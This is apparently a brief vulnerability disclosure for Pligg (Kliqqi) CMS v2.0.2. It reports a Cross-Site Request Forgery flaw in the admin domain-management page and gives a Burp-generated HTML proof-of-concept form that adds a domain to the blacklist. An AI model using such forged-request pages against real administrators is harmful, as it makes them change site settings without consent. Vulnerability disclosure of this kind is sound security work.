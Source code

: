 
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/domain_management.php?blacklist_add=www.baidu.com

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/domain_management.php?blacklist_add=www.baidu.com" method="POST">
      <input type="hidden" name="blacklist_add" value="www.baidu.com" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

